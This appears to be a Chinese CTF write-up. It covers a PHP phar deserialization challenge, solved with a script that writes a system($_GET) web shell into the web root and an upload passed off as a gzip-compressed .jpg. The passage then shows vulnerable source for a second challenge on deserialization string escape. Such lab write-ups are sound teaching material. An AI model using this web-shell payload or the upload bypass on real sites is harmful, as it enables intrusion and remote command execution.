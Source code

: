 打开源代码发现有提示class.php

![image-20231127174240348](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127174240348.png)

依旧是简简单单一句话，unlink是删除文件

`exec`命令似乎是不回显的，因此cmd要写一个马

```php
<?php
class Flag{
    public $cmd="echo \"<?=system(\\\$_GET[1]);?>\" > /var/www/html/1.php";
}
$a = new Flag();
$phar = new Phar('test1.phar');
$phar->startBuffering();
$phar->setStub('<? __HALT_COMPILER();?>');
$phar->setMetadata($a);
$phar->addFromString('test1.txt','test1');
$phar->stopBuffering();
?>
```

执行之后用gzip压缩用于绕过，然后为了上传方便，改成jpg后缀

![image-20231127181427868](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127181427868.png)

上传之后进入class.php，用phar读取上传后的文件，然后进入1.php

![image-20231127183026153](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127183026153.png)

![image-20231127183009015](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127183009015.png)

![image-20231127182950425](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231127182950425.png)



## 逃

这题涉及到反序列化的字符串逃逸，之前在做ctfshow的时候碰到过同类型的题，回顾一下吧

```php
<?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}

class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}

unserialize(waf(serialize(new GetFlag($_GET['key']))));
```
